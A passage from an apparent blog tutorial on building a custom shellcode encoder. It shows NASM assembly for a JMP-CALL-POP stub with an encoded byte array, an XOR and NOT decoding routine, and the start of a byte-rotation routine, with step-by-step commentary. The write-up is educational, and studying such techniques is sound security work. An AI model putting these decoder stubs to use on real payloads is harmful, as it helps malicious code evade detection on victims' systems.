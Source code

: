 {% sidenote Perform the 1st Decoding operation (`XOR`) or move to the next one, based on the commented condition %}

```nasm
CallShellcode:

    call Shellcode
    encoded: db 0x2,0xa8,0x1e,0xa8,0xad,0x21,0xf5,0x89,0x7a,0xce,0x3d,0x89,0xfb,0xce,0x2a,0x83,0xbb,0x51,0x23,0x68,0x19,0x6c,0xf2,0xc5,0xe3,0x6c,0xf4,0xc5,0xe3,0x2c,0xc1,0xeb
```

Now that the 1st operation is done, it's time to move to the 2nd one:

```nasm
Decode:

    mov dl, [esp]
    cmp dl, BYTE [ebx]
    je NotDecode

    mov dl, [esi+2]
    xor BYTE [ebx], dl

NotDecode:

    not BYTE [ebx]
```

This one is very straightforward: based on the Decode routine I've already shown, if the current byte and the one known as `shellcode_length_least_byte` are equal, it jumps to `NoteDecode` in order to perform the `NOT` operation.

After that, the shellcode has to perform the 3d decoding operation:

> 3\. Rotate bytes
>  - if the index of the byte is `even`, then rotate to the left (`ROL`) `ROT_EVEN` times
>  - if the index of the byte is `odd`, then rotate to the right (`ROR`) `ROT_ODD` times

Follows the assembly code of interest:

```nasm
RotateBytes:

    ; save EBX before overwriting it
    push ebx

    ; check if the index is EVEN or ODD
    ; Math logic:
    ;   - EBX - ESI = 4 + current_byte_index
    ;   - if the Least Significant Bit is 1, then it is ODD
    ;   - use test to set the ZF flag if the index is ODD
    sub ebx, esi
    test bl, 1

    ; restore EBX and load the byte into DL
    pop ebx
    mov dl, BYTE [ebx]

    ; if the ZF flag is set, the index is ODD
    jnz RotateOdd
```

